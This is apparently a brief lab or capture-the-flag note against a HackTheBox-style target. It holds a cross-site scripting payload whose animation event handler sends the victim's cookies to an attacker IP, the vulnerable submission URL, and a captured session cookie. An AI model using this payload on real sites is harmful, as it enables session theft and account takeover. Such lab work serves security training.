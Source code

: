 ___

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.5/index.php?c=' + document.cookie;"></video>
```

http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=ela.stienen@example.com

![[Pasted image 20241012120106.png]]

![[Pasted image 20241012120124.png]]

```
s%3AO4PbaTl4opCjm9WT4XotIl52ANq1lxd1.3pNQfYNO29mEUdBtDgXUKSl7mLk710lSowIOcYMdBz8
```


![[Pasted image 20241012120426.png]]


